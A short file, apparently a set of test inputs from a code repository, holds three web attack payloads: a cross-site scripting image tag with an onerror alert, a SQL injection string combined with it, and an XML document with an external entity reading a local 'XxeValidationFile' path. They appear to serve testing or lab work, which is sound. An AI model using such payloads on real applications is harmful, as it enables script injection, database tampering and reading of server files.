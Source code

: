 # Part 1

```html
<img onerror="alert(1)" src="#" />
```

# Part 2

```html
Guest" OR "a"="a" --<img onerror="alert(1)" src="#" />
```

# Part 3

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'file://Users/PinkDraconian/AppData/Local/Temp/XxeValidationFile'>]><root><sql>" OR "a"="a" --</sql><xxe>&test;</xxe><img onerror="alert(1)" src="#">text</img></root>
```
